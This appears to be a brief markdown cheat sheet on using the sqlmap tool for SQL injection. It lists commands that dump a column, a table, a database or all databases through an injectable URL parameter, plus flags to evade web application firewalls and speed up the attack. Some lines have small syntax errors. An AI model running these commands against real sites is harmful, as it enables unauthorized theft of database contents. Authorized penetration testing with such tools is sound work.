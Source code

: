 						
<h2>SQLmap Usage</h2>

 **TO FETCH ONLY COLUMN'S DATA**
 `sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump` 

 **TO FETCH ONLY ALL COLUMN & ITS DATA**
 `sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump`

 **TO FETCH ENTIRE DATABASE'S DATA** 		     
 `sqlmap - u "url?prm=" -p prm -D dbname  --dump`

 **TO FETCH ALL DATABASES**
 `sqlmap - u "url?prm=" -p prm --dbs  --dump` 
 or use --dump-all instead of --dump to fetch all databases's all tables and columns  


<h5>Extra Parameter to Optimise SQLmap's Performance</h5>
* Parameters    **--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o **
* Optimised Url **sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o**

